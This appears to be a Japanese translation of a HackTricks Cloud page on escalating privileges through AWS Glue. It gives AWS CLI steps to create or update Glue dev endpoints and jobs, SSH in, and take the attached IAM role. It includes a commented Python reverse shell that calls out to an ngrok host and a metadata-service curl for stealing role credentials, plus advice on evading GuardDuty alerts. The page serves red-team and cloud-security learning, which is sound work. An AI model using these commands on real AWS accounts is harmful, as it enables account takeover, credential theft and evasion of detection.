 # AWS - Glue Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

`iam:PassRole`と`glue:CreateDevEndpoint`の権限を持つ攻撃者は、**新しいAWS Glue開発エンドポイントを作成し、既存のサービスロールをそれに渡す**ことができます。その後、インスタンスにSSHでログインし、AWS CLIを使用して、そのロールがアクセス権を持つ権限を利用できます。
```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub
```
攻撃者は、ロールのクレデンシャルにアクセスするために、**開発エンドポイントにSSHで接続する**必要があるだけです。
```bash
# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
GuardDutyのドキュメントには特に記載されていませんが、Glueインスタンスから認証情報を持ち出すことは良くないアイデアです。代わりに、**新しいインスタンスから直接AWS APIにアクセスすべきです**。

**潜在的な影響：** 指定されたglueサービスロールへのPrivesc。

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

**`glue:UpdateDevEndpoint`** 権限を持つ攻撃者は、既存のGlue開発エンドポイントに関連付けられたSSH公開鍵を**更新し、それにSSHで接続して、添付されたロールがアクセスできる権限にアクセスすることができます。
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
攻撃者は、**SSHを介して開発エンドポイントにアクセスし、ロールのクレデンシャルにアクセスする**だけです。アラートを引き起こさないように、新しいインスタンスから直接AWS APIにアクセスする必要があります。

**潜在的な影響：** 使用されているglueサービスロールへのPrivesc。

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

これらの権限を持つ攻撃者は、**任意のglueサービスアカウントをアタッチしてジョブを作成/更新**し、それを開始することができます。ジョブは任意のPythonコードを実行できるため、リバースシェルを取得し、アタッチされたロールの**IAMクレデンシャルを盗む**ことができます。
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**潜在的な影響：** glueサービスロールに対するPrivescが指定されています。

### `glue:UpdateJob`

更新権限だけで、攻撃者は既にアタッチされているロールのIAMクレデンシャルを盗むことができます。

**潜在的な影響：** アタッチされているglueサービスロールに対するPrivesc。

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有**してください。

</details>
